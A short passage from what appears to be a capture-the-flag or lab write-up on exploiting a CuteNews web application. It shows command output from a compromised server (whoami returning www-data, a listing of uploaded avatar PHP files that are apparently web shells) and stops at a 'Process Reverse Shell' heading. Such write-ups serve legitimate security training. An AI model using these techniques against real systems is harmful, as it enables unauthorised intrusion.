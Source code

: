 ![Img](../FILES/Cute/img-20220725115151.png)
##### We didn't see the CuteNews Path when we visit website or jump to any other path, so remove that and try again
![Img](../FILES/Cute/img-20220725115318.png)
##### It's working
```
command > whoami
www-data

command > ls
avatar_55Y2xTic4I_55Y2xTic4I.php
avatar_ET3TpbEJQk_ET3TpbEJQk.php
avatar_IgJLU8OSMX_IgJLU8OSMX.php
avatar_PoKxESSE4D_PoKxESSE4D.php
avatar_RvFcklLkzE_RvFcklLkzE.php
avatar_VvgU5CZIce_VvgU5CZIce.php
avatar_cruDW9A0zh_cruDW9A0zh.php
avatar_rwRemM6TLd_message2.jpg
index.html
```
##### Process Reverse Shell
